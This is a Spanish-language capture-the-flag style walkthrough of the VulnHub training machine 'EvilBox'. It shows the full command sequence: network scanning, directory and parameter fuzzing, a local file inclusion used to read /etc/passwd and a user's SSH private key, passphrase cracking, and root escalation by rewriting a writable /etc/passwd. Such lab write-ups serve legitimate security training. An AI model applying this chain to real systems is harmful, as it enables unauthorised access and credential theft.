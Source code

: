 ```yaml
---
layout: post
title: "EvilBox"
date: 2024-05-15 17:35:23
category: vulnhub
vm: vulnhub
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnhub/vulnhub.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> EvilBox </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong><a href="https://www.vulnhub.com/entry/evilbox-one,736/"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnhub/EvilBox/host.png){:.margin}

**1\.** Detectamos dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnhub/EvilBox/arp.png){:.margin}

**2\.** Escaneo puertos y servicios activos.

`sudo nmap -p- --open -T5 -sCV -sS --min-rate=5000 -Pn -n 192.168.1.21 -oN reportScan`

![img](/notas/public/img/vulnhub/EvilBox/nmap.png){:.margin}

**3\.** Tenemos la pagina Apache por defecto.

`http://192.168.1.21:80/`

![img](/notas/public/img/vulnhub/EvilBox/80.png){:.margin}

**4\.** Hago fuzzing de directorios y archivos.

`gobuster dir -u http://192.168.1.21/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,php,js,txt`

![img](/notas/public/img/vulnhub/EvilBox/gobuster.png){:.margin}

**5\.** Reviso el fichero y tengo un usuario potencial.

`http://192.168.1.21/robots.txt`

![img](/notas/public/img/vulnhub/EvilBox/robots.png){:.margin}

**6\.** Si vamos a secret no hay nada.

`http://192.168.1.21/secret/`

![img](/notas/public/img/vulnhub/EvilBox/secretnull.png){:.margin}

**7\.** Hago fuzzing a este directorio, encontramos un archivo.

`gobuster dir -u http://192.168.1.21/secret/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,php,js,txt`

![img](/notas/public/img/vulnhub/EvilBox/gobustersecret.png){:.margin}

**8\.** No tenemos nada visual.

`http://192.168.1.21/secret/evil.php`

![img](/notas/public/img/vulnhub/EvilBox/evilnull.png){:.margin}

**9\.** Hago fuzzing de posibles parametros de ejecucion remota de comandos(RCE), sin exito.

`wfuzz -c --hc=404 --hl=0 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://192.168.1.21/secret/evil.php?FUZZ=id'`

![img](/notas/public/img/vulnhub/EvilBox/wfuzznull.png){:.margin}

**10\.** Hago fuzzing en busca de parametros para incluir archivos locales(LFI).

`wfuzz -c --hc=404 --hl=0 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://192.168.1.21/secret/evil.php?FUZZ=/etc/passwd'`

![img](/notas/public/img/vulnhub/EvilBox/wfuzzcommand.png){:.margin}

**11\.** Vemos que es posible incluir archivos locales.

`http://192.168.1.21/secret/evil.php?command=/etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/etcpasswd.png){:.margin}

**12\.** Presiono ctrl+u y filtro para ver usuarios disponibles.

`view-source:http://192.168.1.21/secret/evil.php?command=/etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/users.png){:.margin}

**13\.** Apuntamos a la clave privada del usuario.

`http://192.168.1.21/secret/evil.php?command=/home/mowree/.ssh/id_rsa`

![img](/notas/public/img/vulnhub/EvilBox/idrsa.png){:.margin}

_\- ctrl + u para copiar de mejor forma._

![img](/notas/public/img/vulnhub/EvilBox/idrsaview.png){:.margin}

**14\.** Guardo la clave en un archivo.

`nano key`

![img](/notas/public/img/vulnhub/EvilBox/key.png){:.margin}

**15\.** Uso [RSAcrack](https://github.com/d4t4s3c/RSAcrack) para obtener un passphrase (secuencia de palabras u otro texto para acceder).

`RSAcrack -w /usr/share/wordlists/rockyou.txt -k key`

![img](/notas/public/img/vulnhub/EvilBox/passphrase.png){:.margin}

**16\.** Me conecto por ssh como usuario mowree.

`ssh -i key mowree@192.168.1.21`

![img](/notas/public/img/vulnhub/EvilBox/ssh.png){:.margin}

**17\.** Busco archivos sudoers sin mucho exito.

`sudo -l`

`find / -perm -4000 2>/dev/null`

![img](/notas/public/img/vulnhub/EvilBox/sudoers.png){:.margin}

**18\.** Escalando privilegios a superusario.

_1- Veo que tengo permisos para escribir en el passwd_

`ls -l /etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/lslpasswd.png){:.margin}

_2- Quito la X (contraseña) para acceder como root sin contraseña_

`cat /etc/passwd`

`nano /etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/catpasswd.png)
![img](/notas/public/img/vulnhub/EvilBox/nanopasswd.png)

_3- Intentamos acceder como root pero nos sigue pidiendo la contraseña_

`su root`

![img](/notas/public/img/vulnhub/EvilBox/surootfail.png){:.margin}

_4- Genero una contraseña personalizada y luego lo agrego al passwd_

`openssl passwd -1 micontra`

`nano /etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/generatepass.png){:.margin}
![img](/notas/public/img/vulnhub/EvilBox/passwdadd.png){:.margin}

_5- Accedemos como root con la nueva contraseña (micontra)

`su root`

![img](/notas/public/img/vulnhub/EvilBox/root.png){:.margin}


<br>

<a href="#">_Finalizado._</a>
